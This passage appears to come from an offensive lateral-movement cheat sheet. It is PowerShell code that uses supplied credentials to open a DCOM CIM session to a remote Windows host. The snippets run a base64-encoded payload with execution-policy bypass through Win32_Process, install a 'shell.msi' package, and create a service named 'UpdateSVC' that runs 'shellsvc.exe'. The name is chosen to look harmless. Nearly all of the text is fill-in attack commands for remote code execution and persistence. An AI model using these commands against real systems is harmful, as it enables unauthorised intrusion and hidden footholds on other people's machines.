 - `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $Command
}
```

##### 2.2.1.2 - MSI Package

- `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
	PackageLocation = "C:\path\to\shell.msi";
	Options = "";
	AllUsers = $false
}
```

#### 2.2.2 - Create Service

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
	Name = "UpdateSVC";
	DisplayName = "UpdateSVC";
	Pathname = "C:\path\to\shellsvc.exe";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess
	StartMode = "<Manual | Auto>"
}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -Filter "Name LIKE 'UpdateSVC'"

# Start the service
```